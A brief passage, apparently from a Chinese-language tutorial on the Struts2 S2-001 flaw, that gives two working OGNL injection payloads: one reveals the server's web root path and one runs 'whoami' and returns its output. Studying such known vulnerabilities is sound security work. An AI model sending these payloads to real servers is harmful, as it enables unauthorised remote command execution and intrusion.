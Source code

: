 

获取web路径

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![](从零开始学习struts2-S2-001\11.png)



以及命令执行

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
